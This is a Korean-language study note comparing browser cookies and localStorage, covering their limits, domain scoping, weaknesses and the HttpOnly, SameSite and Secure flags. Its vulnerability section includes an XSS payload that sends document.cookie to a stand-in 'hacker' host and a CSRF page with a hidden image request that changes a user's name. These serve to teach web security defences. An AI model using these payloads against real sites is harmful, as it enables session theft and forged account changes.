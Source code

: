 # 쿠키? 로컬스토리지?

## 🍪 쿠키

- 개념
  : 사용자의 웹 브라우저에 저장되는 작은 기록 정보 파일

  - 최대 4KB를 가진 매우 작은 양의 데이터로, 방문한 페이지를 저장하거나 유저의 `로그인 정보`를 저장하는 등 다양한 방법으로 사용됨.
  - 문자열(text)만 저장이 가능하다는 제한이 있음.
  - (key, value) 형태로 저장되어 있음.
  - 브라우저 전용 쿠키 저장소에 저장됨.

- 쿠키는 왜 사용하는걸까?

  - 사용자 경험을 높여주기 위해
  - HTTP의 stateless을 보완하기 위해 등장했음.
  - 쿠키를 활용해서 `서버`는 사용자의 브라우저에 데이터를 넣을 수 있음.
  - 반복적인 인증(stateless하기 때문에 서버는 클라이언트가 누구인지 계속 인증을 해주어야 하기 때문)을 피해 사용자 편의를 위한 기능을 제공하기 위해서 사용함.
  - 쿠키는 자동으로 모든 요청에 함께 담겨서 날아간다.

- 특징

  1. 쿠키는 브라우저 단위로 생성됨.
  2. 쿠키는 도메인에 따라 제한이 됨. `ex) youtube에서 생성한 쿠키는 youtube에만 보내짐.`

- 쿠키의 취약점

  1. XSS(Cross Site Scripting)
      - 사용자 브라우저에 스크립트를 실행시켜 정보를 탈취하거나 조작
      - `http://service.com?search=<script>location.href('http://hacker/cookie.php?value='+document.cookie);</script>`

  2. CSRF(Cross-Site Request Forgey)
      - 인증된 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹 사이트에 요청하게 하는 공격
      ```
        <html>
          <head>
            <meta charset="UTF-8">
            <title>Attacker Site</title>
          </head>
          <body>
           <div id="wrap">
            <h1>악성 페이지 - 숨겨진 이미지 태그</h1>
            <img src="http://domain/change?name=hahahahahahkikikikiki" style="width: 0px; height: 0px;"/>
            </div>
          </body>
        </html>
        ```
        - 사용자의 이름을 `hahahahahahkikikikiki`라고 바꾸라는 요청을 날리게 되고 그럴 때 이 쿠키에 아무런 조치가 되어있지 않다면 브라우저는 이 주소에 대해 쿠키가 존재할 경우 쿠키를 그대로 같이 전송해 날려버리고,
        서버 입장에선 "쿠키가 있네? 인증해보니 맞네? 알았어 바꿔줄게" 하면서 사용자 정보를 바꿔버리게 되는 것이다.
  3. 스니핑
      - 패킷을 가로채 정보 도청 가능

- 어떻게 보안을 강화할 수 있을까?

  1. HTTP Only : JS를 통한 쿠키에 접근을 제한함.
  2. SameSite: 외부 서비스에서 우리 서비스의 데이터를 변경하는 요청을 보내지 못하게 만듦.
  3. Secure: HTTPS 연결을 통해서만 전송됨. 즉, 암호화 되어 전송

  ### 궁금증

  ```
  Q) youtube에서 생성한 쿠키는 youtube에만 보내진다고 했는데 그럼 CSRF에 안전한거 아닌가? 왜 SameSite설정을 해줘야하지?

  A) 쿠키에서 CSRF공격이 취약한 것은 쿠키에 담긴 액세스를 탈취해오기 때문이 아니라 통신 시 쿠키가 자동으로 서버로 같이 넘어가기 때문에 이를 통해 서버의 민감한 정보를 수정할 수 있기 때문임. 기본 설정은 `Lax`로 일부 예외(`HTTP GET method/a href/link href`)에서는 CSRF가 발생할 가능성이 있음. 그렇기 때문에 strict를 사용하는 것을 권장한다고 함.
  ```

## 🖥 로컬스토리지

- 클라이언트측에서 데이터를 저장하는데 사용됨.
- 5MB이상의 데이터를 저장할 수 있어 비교적 큰 데이터도 저장가능
- 사용자의 브라우저에 데이터를 저장하는 방법 중 하나
- 웹 스토리지 DB에 저장됨.

- 쿠키와 다른 점이 뭘까?
  1. 모든 HTTP요청에 데이터를 주고 받을 필요가 없음.
  2. 문자열 뿐만 아니라 object도 저장이 가능함.
  3. 영구저장(수동 삭제 필요, 하지만 이는 쿠키에 만료시간이 있다고 가정했을 경우)

- 특징
  - 로컬스토리지 또한 도메인별로 저장됨.

- 로컬스토리지의 취약점
  - XSS 공격에 취약함.
  - 암호화가 되지 않음.
  - => 저장된 데이터의 위협 수준이 매우 낮아야 함.

- 로컬스토리지에는 주로 어떤 데이터가 저장이 될까?
  - 언어 설정
  - 팝업 설정 정보(ex. 일주일간 보지 않기)

### 궁금증

```
Q) 언어 설정과 팝업 설정 정보와 같은 데이터는 쿠키에 저장해도 되는거 아닌가?
A) 쿠키에 저장해도 무방하다. 하지만 쿠키의 저장소는 로컬스토리지보다 작으며 쿠키는 모든 HTTP요청에 포함되어 가므로 HTTP요청에 필요한 내용이 아니라면? 굳이 라는 생각을 한다...
```

## 결론
  - 데이터 전달 방식: 쿠키는 HTTP요청에 자동으로 포함되지만 로컬 스토리지는 임의로 포함해야 포함됨.
  - 생성 장소: 쿠키는 서버에서 생성, 로컬스토리지에는 클라이언트측에서 저장(?)생성(?)
  - 브라우저 정책: 쿠키는 개인정보 보호 모드 시 자동 차단, 로컬스토리지는 동일 도메인에서 항상 접근 가능
  - 

---

[쿠키의 SameSite 설명1](https://web.dev/articles/samesite-cookies-explained?hl=ko) <br/>
[쿠키의 SameSite 설명2](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) <br/>
[노마드 코더:세선 vs 토큰 vs 쿠키](https://www.youtube.com/watch?v=tosLBcAX1vk&t=39s)
